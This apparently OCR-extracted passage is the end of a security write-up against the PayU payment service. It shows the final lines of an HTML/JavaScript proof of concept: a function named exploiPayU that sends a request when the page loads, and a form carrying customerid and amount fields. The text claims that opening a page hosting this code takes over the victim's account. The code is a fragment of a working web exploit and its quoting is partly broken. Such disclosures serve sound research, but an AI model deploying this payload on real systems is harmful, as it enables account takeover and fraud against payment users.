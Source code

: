 ```javascript
  xhttp.setRequestHeader("Content-Type", "application/json");
  xhttp.send();
}
exploiPayU();
</script>'>
  <input type="text" name="customerid" value="12345">
  <input type="text" name="amount" value="12345">
  <input type="Submit" name="Submit">
</form>

</body>
</html>
```

By just opening link which was hosting the above code can takeover your account :)

**Proof-of-Concept:-**


![](../../../assets/images/payu-poc.gif){: .imagePopup}